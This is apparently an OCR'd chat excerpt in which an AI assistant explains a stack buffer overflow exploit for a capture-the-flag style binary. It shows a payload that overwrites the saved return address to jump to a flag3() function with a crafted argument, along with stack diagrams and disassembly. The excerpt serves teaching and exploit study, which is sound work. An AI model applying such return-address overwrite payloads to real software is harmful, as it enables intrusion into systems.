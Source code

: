 
### 🧩 In your specific payload

```
payload =
"A"*28              # fill buffer
+ "\x06\x91\x2b\x0b"  # new saved EIP = flag3()
+ "BBBB"            # fake return address
+ "\x68\xd3\xff\xbf"  # arg1 (pointer to "pwn3d")
+ "pwn3d\0"         # string data
```

After the overflow and when `doit` returns:

```
ESP -> "BBBB"           (fake ret)
       ptr_to_pwn3d     (first argument)
       "pwn3d\0"
```

`flag3`’s prologue sets up EBP = ESP, so:

```
[EBP + 4] → "BBBB"
[EBP + 8] → ptr_to_pwn3d
```

Thus, when it executes `memcmp(0x8(%ebp), something, 5)`,
the argument points right to your `"pwn3d"` string — exactly as intended.

---

✅ **So yes**, you’re completely correct:
Those `"BBBB"` bytes are the **fake return address for `flag3`**,
and the next 4 bytes (`ptr_to_pwn3d`) become `flag3`’s argument.

Would you like me to diagram the exact stack layout before and after the overflow (with memory addresses) so you can visualize it?

Excellent question — this is the **core conceptual jump** in understanding stack-based exploitation.
Let’s go step by step.

---

## 🔍 1. What you can learn **from disassembly alone**

When you disassemble `flag3`, you can see:

```asm
0x0b2b9106 <+0>: push  %ebp
0x0b2b9107 <+1>: mov   %esp,%ebp
0x0b2b9109 <+3>: sub   $0x8,%esp
0x0b2b910c <+6>: cmpl  $0x0,0x8(%ebp)
...
0x0b2b911f <+25>: call memcmp@plt   ; memcmp(arg1, const_str, 5)
```
